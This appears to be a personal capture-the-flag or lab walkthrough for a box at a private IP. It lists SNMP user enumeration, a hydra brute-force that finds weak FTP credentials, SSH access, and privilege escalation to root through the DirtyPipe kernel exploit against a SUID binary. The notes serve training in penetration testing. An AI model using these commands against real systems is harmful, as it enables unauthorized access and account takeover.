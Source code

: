 # Take Away
- If there is no information, you are probably not enumerating enough. Try to find new ways using `hacktricks` article or blogs to enumerate more information.
# Exploitation
- Running `snmpwalk -c public -v 1 192.168.226.149 NET-SNMP-EXTEND-MIB::nsExtendObjects` will identify that two potential users. One is `john` and the other is `kiero`. Moreover, we can see from the Output that the user `kiero`'s password has been reset.![[Pasted image 20240223000534.png]]
- Running `hydra -l kiero -P /usr/share/wordlists/metasploit/unix_passwords.txt -e nsr ftp://192.168.226.149` will identify `kiero:kiero` as a pair of valid ftp credential.![[Pasted image 20240216190956.png]]
- After logging into the ftp server as `kiero`, one can locate another pair of SSH credential for `john`.
- Run `ssh john@192.168.226.149 -i id_rsa` to log in as `john`.
# PrivEsc
- `linpeas` will identify that target is potentially vulnerable to `DirtyPipe (CVE-2022-0847)`.![[Pasted image 20240216213904.png]]
- Retrieve `dirtypipez.c` and transfer onto the target host. Compile using `gcc-9 dirtypipez.c -o dirtypipez`. In order for the exploit to working, it needs to hijack a `SUID` binary which, in the case here can be `RESET_PASSWD` within `/home/john`. Run `./dirtypipez /home/john/RESET_PASSWD` to receive a root shell.